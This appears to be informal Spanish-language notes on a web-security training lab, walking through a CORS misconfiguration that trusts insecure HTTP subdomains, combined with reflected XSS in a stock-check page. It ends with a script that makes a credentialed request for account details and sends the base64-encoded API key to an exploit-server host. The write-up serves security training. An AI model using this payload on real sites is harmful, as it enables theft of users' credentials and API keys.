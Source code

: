 En esta clase abordamos un caso en el que el servidor permite solicitudes CORS desde cualquier subdominio, independientemente de si usan HTTPS o HTTP. Esta configuración es especialmente peligrosa cuando se combinan con peticiones que incluyen credenciales.

Aprovechamos una funcionalidad vulnerable de la aplicación, donde una URL en HTTP ejecuta un script inyectado a través de un parámetro. Este script lanza una solicitud **XMLHttpRequest** a un endpoint protegido, obteniendo la clave API del administrador gracias a que el origen inseguro en HTTP sigue siendo aceptado por el servidor. El resultado se redirige al servidor de explotación, permitiendo capturar y enviar la clave para completar el laboratorio.

Solucion
aplicamos los pasos pero en este caso no va funcionar ni el null ni otra cosa
![Pasted image 20250728211958.png](imagenes/Pasted image 20250728211958.png)
entonces aqui trabaja con subdominios
la primera prueba sera con el propio dominio
![Pasted image 20250728212301.png](imagenes/Pasted image 20250728212301.png)
probamos con otro diferente
![Pasted image 20250728212435.png](imagenes/Pasted image 20250728212435.png)
y tambien funciona
ahora toca buscar en la web aver que encontramos
La web:
![Pasted image 20250728212612.png](imagenes/Pasted image 20250728212612.png)
presionamos el del perro
![Pasted image 20250728212639.png](imagenes/Pasted image 20250728212639.png)
le damos en check stock
cuando le damos en check stock obtenemos esto
![Pasted image 20250728212726.png](imagenes/Pasted image 20250728212726.png)

vamos a intestigar esa nueva ventana injectando codigo
![Pasted image 20250728212850.png](imagenes/Pasted image 20250728212850.png)
y es vulnerable a xss
y podemos ver que este subdomio no tiene problema en ser mandado al origin
![Pasted image 20250728213015.png](imagenes/Pasted image 20250728213015.png)
asi que vamos a mandar exfiltrar informcion entonces para ello vamos a realizar un script

<script>
    var req = new XMLHttpRequest();
    req.onload = function() {
        location = "https://exploit-0a97004f0494e312811342b1019000de.exploit-server.net/?apikey=" + btoa(req.responseText);
    };
    req.open("GET","https://0a2e00b004e4e31e81c24391008f00ae.web-security-academy.net/accountDetails", true);
    req.withCredentials = true;
    req.send();
</script>
